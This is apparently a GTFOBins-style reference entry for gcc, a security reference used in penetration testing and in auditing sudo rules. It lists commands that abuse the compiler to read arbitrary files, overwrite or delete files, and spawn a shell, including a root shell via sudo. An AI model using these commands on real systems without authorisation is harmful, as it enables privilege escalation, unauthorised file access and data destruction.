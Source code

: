 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        gcc -xc /dev/null -o $LFILE
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
